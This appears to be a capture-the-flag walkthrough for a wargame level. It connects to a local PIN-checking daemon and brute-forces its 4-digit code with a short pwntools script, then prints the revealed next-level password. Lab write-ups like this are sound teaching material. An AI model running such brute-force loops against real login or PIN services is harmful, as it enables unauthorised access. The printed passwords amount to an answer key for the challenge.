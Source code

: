 A daemon is listening on port 30002 and will give you the password for bandit25
if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```shell
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25.
Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
Note Level 24 Pass : **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**

Testing random input 

```shell
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234
Wrong! Please enter the correct pincode. Try again.
```
It says we have to brute force the service , Lets try to write python script to do so 

```python
from pwn import *

r = remote("localhost",30002)
q = r.recvline()
print("Question is \n"+q)
for i in range(0,9999):
        if i >= 0 and i <10:
                pin = "000" + str(i)
        elif i >= 10 and i <100:
                pin = "00" + str(i)
        elif i >= 100 and i < 1000:
                pin = "0" + str(i)
        else :
                pin = str(i)

        print("Sending UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ " + pin)
        r.send("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ "+pin + " \n")
        print(r.recvline())
```
Boom we have the flag 

```shell
Sending UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5589
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

